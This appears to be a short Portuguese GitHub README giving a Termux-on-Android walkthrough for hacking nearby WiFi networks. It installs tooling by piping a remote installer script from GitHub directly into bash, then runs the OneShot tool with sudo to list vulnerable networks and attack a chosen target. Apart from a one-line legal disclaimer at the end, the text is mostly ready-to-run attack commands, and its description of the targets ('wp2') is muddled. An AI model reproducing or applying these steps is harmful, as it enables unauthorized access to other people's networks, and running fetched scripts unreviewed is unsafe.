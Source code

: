 # Testando-Vulnerabilidade-Wifi<br>
Esse teste consiste em acessar versão redes wp2>>>>> Terminal termux>>>>>Android v7<br>
Vamos instalar uns programas ao inicializar>>>>>><br>
$ pkg update ´vamos atualizar repositório`<br>
vamos limpar a tela "clear"<br>
$ termux-change-repo<br>
ums nova janela irá abrir, marcar todas opções<br> 
<img src="id1.png"><br>
Próxima tela>>>>>>>>>>>><br>
<img src="id2.png"><br>
$ pkg upgrade<br>
$ pkg install git<br>
$pkg install python<br>
$pkg install python2<br>
Instalando pio pip fundamental para o próximo passe.<br>
$ pkg install --upgrade pio<br>
$ pkg install --upgrade pip<br>
Instalar a dependencias segue o git clone>>>>>>>>>><br>
curl -sSf https://raw.githubusercontent.com/drygdryg/OneShot_Termux_installer/master/installer.sh | bash<br>
$ ls (pastas)<br>
cd OneShot (***preste atenção O maísculo e S maísculo***)<br>
$ ls<br>
Vamos agora chamar para rodar com sudo no python<br>
$ sudo python oneshot.py -l wlan0 -K <br> 
Termux vai listar possíveis redes vulneráveis de ser hackeadas.<br>
<img src="id3.png"><br>
serão numerados as conexões e escolher >>>>>>>>> alvo e irá comecar scanning.... <br><br>
<img src="id4.png"><br><br>
Lembra-se use para seus estudos, invasão de redes é uma violação e poderá responder pelos seus atos com a justiça.<br>
